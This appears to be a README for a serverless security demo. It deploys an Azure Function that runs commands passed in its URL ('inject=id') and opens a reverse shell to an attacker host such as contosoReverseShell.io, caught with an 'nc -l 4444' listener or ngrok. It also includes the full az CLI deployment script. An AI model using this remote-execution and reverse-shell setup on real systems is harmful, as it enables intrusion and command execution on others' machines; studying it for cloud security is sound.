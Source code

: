

# Dead simple reverse shell example

Usss node.js exec() for reverseShell lolbins present at Azure Functions, (bash could be also used, but I had one of the lolbins ready from previous example)

[``/rce/index.js``](/rce/index.js)


// Examples https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md


## Usage



        shell = host or fqdn
        port = portNmbr
        https://fn-reverseshell-26735.azurewebsites.net/api/rce?code={functionKey}&shell=contosoReverseShell.io&port=14577 

        or to just inject 
        https://fn-rshell-15002.azurewebsites.net/api/rce?code=={functionKey}&inject=id

## Listener example
    at attacker side aka. contosoReverseShell.io
        nc -l 4444 -vvv



**Ngrok can also be used to publish the attacker endpoint**

The use of NGROK was previosly demonstrated here
 https://github.com/pumasecurity/serverless-prey/tree/main/cougar 

---

## Deploy with AZ CLI
```sh
#az login --use-device-code
#az account set --subscription 78020cde-0dd8-4ac6-a6d4-21bac00fb343
#Define starting variables
rnd=15002
fnName=fn-rShell-$rnd
rg=RG-FN-$rnd
location=westeurope
# You can ignore the warning "command substitution: ignored null byte in input"
storageAcc=storage$(shuf -zer -n10  {a..z})

# Create Resource Group (retention tag is just example, based on another service)
az group create -n $rg \
-l $location \

# Create storageAcc Account 
saId=$(az storage account create -n $storageAcc  -g $rg --kind storageV2 -l $location -t Account --sku Standard_LRS  -o tsv --query "id")
saConstring=$(az storage account show-connection-string -g $rg  -n  $storageAcc -o tsv --query "connectionString")

## Create Function App
az functionapp create \
--functions-version 3 \
--consumption-plan-location $location \
--name $fnName \
--os-type linux \
--resource-group $rg \
--runtime node \
--storage-account $storageAcc
#
sleep 10

# Set to read-only, list variables here you want to be also part of cloud deployment
az functionapp config appsettings set \
--name $fnName \
--resource-group $rg \
--settings WEBSITE_RUN_FROM_PACKAGE=1 

#Create ZIP package 

7z a -tzip deploy.zip . -r -mx0 -xr\!*.git -xr\!*.vscode 
az functionapp deployment source config-zip -g $rg -n $fnName --src deploy.zip

keys=$(az functionapp keys list -g $rg -n $fnName -o tsv --query functionKeys) 
msiFn=$(az functionapp function show -g $rg -n $fnName --function-name rce -o tsv --query invokeUrlTemplate)
echo "$msiFn"?code="$keys"

#
rm deploy.zip

nc -l 4444 -vvv
# IF ngrok is used ( run this on agent )
ngrok tcp 4444
```